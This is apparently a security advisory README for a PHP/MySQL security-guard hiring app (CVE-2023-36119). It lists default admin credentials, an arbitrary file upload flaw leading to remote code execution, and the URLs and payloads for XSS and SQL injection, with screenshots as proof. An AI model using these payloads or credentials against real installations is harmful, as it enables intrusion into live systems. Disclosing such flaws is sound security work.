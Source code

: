 # Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ arbitrary file upload (RCE)
+ CVE ID: CVE-2023-36119
+ CVSS v3.1 `AV:A/AC:H/PR:H/UI:R/S:C/C:H/I:H/A:H/E:F/RL:W/RC:R/CR:H/IR:H/AR:M/MAV:A/MAC:L/MPR:H/MUI:R/MS:U/MC:H/MI:H/MA:L`
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/74a83faa-d76f-4bf1-9e6d-43dd6ea9d612)

**Affecr URL**
+ XSS
  + http://localhost/osghs/admin/admin-profile.php --> Admin Name
  + http://localhost/osghs/admin/search.php --> Search Booking
  + http://localhost/osghs/search-request.php -->  Search Booking
  + http://localhost/osghs/admin/view-booking-detail.php?bookingid=XXX 

payload -> <script>alert(1)</script> 

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/44e50c20-6d7f-454e-86ef-13814460ad2b)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/eb1b3b57-ba6e-4d7a-bccc-ad90a017e36a)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/340d324d-ee0a-4119-b4bf-dd0824ec0189)

+ SQL injection

payload -> ' UNION SELECT NULL,NULL,NULL--

+ http://localhost/osghs/admin/search.php

+ POC
  
https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/667cad95-bf9d-4636-9d7b-2145e1a68963

